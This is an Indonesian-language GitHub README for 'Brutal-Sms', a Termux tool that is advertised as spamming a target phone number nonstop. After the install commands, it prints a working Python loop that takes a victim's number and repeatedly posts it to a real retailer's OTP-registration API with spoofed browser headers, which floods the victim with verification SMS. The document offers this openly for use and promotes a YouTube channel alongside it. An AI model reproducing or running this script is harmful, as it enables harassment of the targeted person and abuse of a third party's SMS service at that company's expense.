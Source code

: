 # Brutal-Sms



Spam Brutal WhatsApp 24 jam non stop

<details open>

  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash

  pkg update && pkg upgrade

  pkg install nano

  pkg install git

  pkg install python

  git clone https://github.com/QueenMilaka/Brutal-Sms

  bash install.sh

  cd Brutal-Sms

  python sms.py

  ```

  </details>

<details open>

  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash

  Example:

  import os,sys,time,requests,json

  abc=input("Nomor Target:")

  while True:

        print (abc)

        # Tambah time.sleep(5) (Jika Ingin Delay)

  ```

  </details>

#### KELEBIHAN 📍

| Kelebihan | Check |

|--------|--------|

| **24 Jam non stop** |[✔️](https://github.com/AmmarrBN) |

| **Brutal Spam** |[✔️](https://github.com/AmmarrBN) |

| **Simple** |[✔️](https://github.com/AmmarrBN) |

| **No Encrypt** |[✔️](https://github.com/AmmarrBN) |

| **Subscribe** |[Here](https://youtube.com/channel/AuliaRahmanOfficial123) |

---------

<details open>

  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash

  import os,sys,time,requests,json

  nomor=input("Nomor Target:")

  while True:

        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text

        time.sleep(10) # Waktu Delay Bisa Atur Sendiri

  ```

  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Aulia%20Rahman%20Official&color=green)](https://youtube.com/channel/AuliaRahmanOfficial123)

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Aulia%20Rahman%20Official&color=green)](https://youtube.com/channel/AuliaRahmanOfficial123)

